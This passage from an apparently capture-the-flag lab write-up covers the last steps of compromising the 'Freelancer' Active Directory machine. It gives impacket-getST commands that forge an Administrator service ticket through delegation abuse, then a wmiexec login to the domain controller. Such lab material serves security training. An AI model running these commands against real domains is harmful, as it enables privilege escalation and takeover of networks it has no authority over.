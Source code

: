 Then obtain the ticket, which is the ticket of the new machine:

{% code overflow="wrap" %}
```bash
impacket-getST -spn 'cifs/dc.freelancer.htb' -impersonate Administrator -dc-ip 10.10.11.5 freelancer.htb/DESKTOP-OOIWDGCC$:'yd9fvtGwz78TUoIdcsVKgbjqNNvbRACH.'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (819).png" alt=""><figcaption></figcaption></figure>

Finally import the ticket and log in to the DC directly using the `wmiexec` tool and rooting the machine :tada::tada:

{% code overflow="wrap" %}
```bash
KRB5CCNAME="Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache" wmiexec.py -no-pass -k freelancer.htb/administrator@dc.freelancer.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (816).png" alt=""><figcaption></figcaption></figure>

